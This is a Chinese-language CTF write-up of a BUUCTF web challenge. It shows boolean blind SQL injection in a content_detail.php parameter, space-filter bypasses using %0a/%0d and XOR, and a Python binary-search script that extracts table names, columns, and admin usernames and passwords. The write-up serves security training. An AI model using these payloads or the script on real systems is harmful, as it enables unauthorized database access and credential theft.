 # [Black Watch 入群题]Web

## 题目信息

![image-20210813190549093](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813190549093.png)

## 解题思路

进去是这个页面

![image-20210813190632664](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813190632664.png)

访问后没看出有特殊地方。抓包发现两个php文件

![image-20210813190825410](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813190825410.png)

![image-20210813190836379](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813190836379.png)

猜测content_detail.php存在sql注入

![image-20210813190935519](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813190935519.png)

果然如此。题目考点在这。若不是数字型注入，那试下字符型注入

**失败合集** 👇

![image-20210813191158621](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813191158621.png)

![image-20210813191217144](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813191217144.png)

![image-20210813191231865](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813191231865.png)

![image-20210813191243015](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813191243015.png)

![image-20210813191301613](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813191301613.png)

最后发现不能有空格，不然就被过滤

![image-20210813191459404](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210813191459404.png)

最后没想到这么简单就绕过了。参考别人wp。发现两种方法，一种是异或，另外一种是换行符(0a)绕过

### 方法1：0a绕过

![image-20210816134055497](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210816134055497.png)

运用布尔注入编写payload

```sql
id=0%0dOR%0dascii(substr((version()),1,1))=ASCII('1')
```

![image-20210816145043992](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210816145043992.png)

> 注意mysql的substr是从1开始的

#### 二分法脚本

```python
# coding=UTF-8
import requests
import time

def active(seat):
    # seat：payload中的第几位flag  。  times：二分法执行的次数
    global url, payload, flag
    min_value = 33
    max_value = 130
    while True:
        mid = (min_value + max_value) // 2  # 中值
        whole_payload = url + payload.format(seat, mid)  # 最终payload
        res = requests.get(whole_payload)
        time.sleep(0.1)
       # print(whole_payload)
        if flag in res.text:
            min_value = mid + 1
        else:
            max_value = mid

        if min_value == max_value:
            return min_value

if __name__ == '__main__':
    flag = "title"
    url = r"http://f1497bc2-20a1-40aa-ab35-c49dc8b1ced3.node4.buuoj.cn:81/backend/content_detail.php?id="
    payload1 = r"0 or ascii(substr((select group_concat(table_name) from information_schema.tables" \
           " where table_schema=database()),{},1))>{}".replace(' ', '%0a')
    payload2 = r"0 or ascii(substr((select group_concat(column_name) from information_schema.columns" \
           " where table_name='admin'),{},1))>{}".replace(' ', '%0a')
    payload3 = r"0 or ascii(substr((select group_concat(username) from admin),{},1))>{}".replace(' ', '%0a')
    payload4 = r"0 or ascii(substr((select group_concat(password) from admin),{},1))>{}".replace(' ', '%0a')
    payload = payload4
    print('result is : \n')
    for i in range(1,20):
        CH = chr(active(i))
        if CH == '!':
            CH = chr(active(i+1))
            if CH == '!':
                exit(1)

        print(CH, end='')

```

第一个账户登录失败，第二个登录成功！

![image-20210816172228868](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210816172228868.png)



### 方法2：异或绕过

原理，

```sql
mysql> select xxx from xxx where id = 1^1 //都是true，相同异或为0。相反则为1。
```

![image-20210816172731495](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210816172731495.png)

>因为user = "root"^0 (异或为1)，查询语句变成user = 1。故爆出所有数据

令一边为0，这样只要右边为1，此时异或后为1，查出数据。

```python
payload1 = '0^(ascii(substr((select(database())),{},1))>{})'
    payload2 = '0^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'news\')),{},1))>{})'
    payload3 = '0^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'contents\')),{},1))>{})'
    payload4 = '0^(ascii(substr((select(group_concat(password))from(admin)),{},1))>{})'
```

脚本成功运行！得到两个账号的密码

![image-20210816174201530](C:\Users\Th\Desktop\19Grade_CTFSummerTraining\8月12日第七次提交\Throokie\Web.assets\image-20210816174201530.png)

